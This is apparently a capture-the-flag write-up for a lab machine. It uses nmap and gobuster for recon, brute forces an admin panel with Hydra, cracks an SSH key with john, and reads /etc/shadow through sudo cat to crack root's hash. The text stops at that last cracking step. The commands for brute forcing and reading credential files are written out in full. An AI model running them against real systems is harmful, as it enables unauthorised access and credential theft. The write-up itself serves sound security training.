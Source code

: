 ```yaml
---
layout: post
author: Fr4nSec
tags: [Linux, HTTP POST]
---
```


## Objectives

- Username and password of the admin panel
- User flag
- Web flag
- RSA password
- root password
- root flag


## Recon

Let's scan the target IP address..

```
nmap -p 22,80 -sCV 10.10.201.153 > PortScan
cat PortScan
```
![scan1](/images/bruteit/scan1.png)

Port 80 is open. Let's see what's there:

```
gobuster dir -u http://10.10.201.153:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster](/images/bruteit/gobuster.png)

There is something at /admin (http://10.10.201.153/admin)

![adminpanel](/images/bruteit/adminpanel.png)

Always check the source code

![sourcecode](/images/bruteit/sourcecode.png)




## Exploitation

Now we know the username is **'admin'** and notice the payload of the POST request. We can use this to brute force the login page. For this we will need a word from a failed attempt.

![request](/images/bruteit/request.png)

And we use Hydra to brute force

```
hydra -l admin -P /home/kali/rockyou.txt 10.10.201.153 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"
```

![hydra](/images/bruteit/hydra.png)

We cracked the password of the panel admin account. Let's access.

![flag0](/images/bruteit/flag0.jpg)

 We have a flag now and a RSA private key that we can download. Let's crack it.
 
 ![john](/images/bruteit/john.png)
 
 Now we use the SSH Key to access the target (remember to make sure the SSH Key has the correct permissions.
 
 To change permissions:
 
 ```
chmod 600 id_rsa
```
 
 Let's connect:
 
 ```
ssh -i id_rsa john@10.10.201.153
```
 
 ![ssh1](/images/bruteit/ssh1.png)
 

## Privilege escalation

 In these situations, one of the first things i usally do is to check if the user has any privilege with sudo
 
 ```
sudo -l
```

![sudo](/images/bruteit/sudo.png)

It seems that this user can use 'cat' as sudo! That means we can read anything!

 ```
sudo cat /etc/shadow | grep root > roothash
cat roothash
```

![cat](/images/bruteit/cat.png)

We can now crack the hash:

 ```
john roothash --wordlist=/home/kali/rockyou.txt
```

![crack](/images/bruteit/crack.png)

